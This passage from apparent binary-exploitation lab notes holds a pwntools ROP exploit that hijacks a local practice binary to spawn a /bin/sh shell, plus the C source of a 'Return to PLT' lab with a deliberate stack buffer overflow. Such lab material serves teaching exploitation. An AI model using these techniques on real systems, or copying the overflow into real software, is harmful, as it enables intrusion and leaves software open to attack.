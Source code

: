 Exp: 

```python
from pwn import *


r = process('./rop')

r.recvuntil('challenge ;)')

bss_addr = 0x6bb2e0
pop_rsi = 0x0000000000410093 # pop rsi ; ret
mov_rdi_rsi = 0x0000000000446c1b # mov qword ptr [rdi], rsi ; ret
pop_rdi = 0x0000000000400686 # pop rdi ; ret
pop_rdx = 0x00000000004494b5 # pop rdx ; ret
pop_rax = 0x0000000000415294 # pop rax ; ret
syscall = 0x00000000004011fc # syscall

p = 'a'*0x18
p += p64(pop_rdi)
p += p64(bss_addr)
p += p64(pop_rsi)
p += '/bin/sh\x00'
p += p64(mov_rdi_rsi)
p += p64(pop_rsi)
p += p64(0)
p += p64(pop_rdx)
p += p64(0)
p += p64(pop_rax)
p += p64(0x3b)
p += p64(syscall)


r.send(p)
r.interactive()
```



## Return to PLT

### # Lab6

```python
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char name[16];

int main()
{
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  char buf[16];
  system("echo What is your name?");
  read(0, name, 0x10);
  puts("Say something: ");
  read(0, buf, 0x40);
  return 0;
}
```
